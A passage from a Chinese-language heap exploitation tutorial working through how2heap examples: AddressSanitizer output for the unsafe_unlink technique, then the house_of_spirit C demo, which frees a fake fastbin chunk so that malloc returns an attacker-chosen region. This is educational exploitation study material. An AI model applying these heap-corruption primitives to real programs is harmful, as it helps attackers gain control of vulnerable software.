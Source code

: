 现在 libc-2.26 版本下也成功利用了。tcache 是个很有趣的东西，更详细的内容我们会在专门的章节里去讲。

加上内存检测参数重新编译，可以看到 heap-buffer-overflow：
```
$ gcc -fsanitize=address -g unsafe_unlink.c 
$ ./a.out 
The global chunk0_ptr is at 0x602230, pointing to 0x60c00000bf80
The victim chunk we are going to corrupt is at 0x60c00000bec0

Fake chunk fd: 0x602218
Fake chunk bk: 0x602220

=================================================================
==5591==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x60c00000beb0 at pc 0x000000400d74 bp 0x7ffd06423730 sp 0x7ffd06423720
WRITE of size 8 at 0x60c00000beb0 thread T0
    #0 0x400d73 in main /home/firmy/how2heap/unsafe_unlink.c:26
    #1 0x7fc925d8282f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
    #2 0x400968 in _start (/home/firmy/how2heap/a.out+0x400968)

0x60c00000beb0 is located 16 bytes to the left of 128-byte region [0x60c00000bec0,0x60c00000bf40)
allocated by thread T0 here:
    #0 0x7fc9261c4602 in malloc (/usr/lib/x86_64-linux-gnu/libasan.so.2+0x98602)
    #1 0x400b12 in main /home/firmy/how2heap/unsafe_unlink.c:13
    #2 0x7fc925d8282f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
```

#### house_of_spirit
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    malloc(1);

    fprintf(stderr, "We will overwrite a pointer to point to a fake 'fastbin' region. This region contains two chunks.\n");
    unsigned long long *a, *b;
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

    fprintf(stderr, "The first one:  %p\n", &fake_chunks[0]);
    fprintf(stderr, "The second one: %p\n", &fake_chunks[4]);

    fake_chunks[1] = 0x20;      // the size
    fake_chunks[5] = 0x1234;    // nextsize

    fake_chunks[2] = 0x4141414141414141LL;
    fake_chunks[6] = 0x4141414141414141LL;

    fprintf(stderr, "Overwritting our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[0]);
    a = &fake_chunks[2];

    fprintf(stderr, "Freeing the overwritten pointer.\n");
    free(a);

    fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[0], &fake_chunks[2]);
    b = malloc(0x10);
    fprintf(stderr, "malloc(0x10): %p\n", b);
    b[0] = 0x4242424242424242LL;
}
```
```
$ gcc -g house_of_spirit.c 
```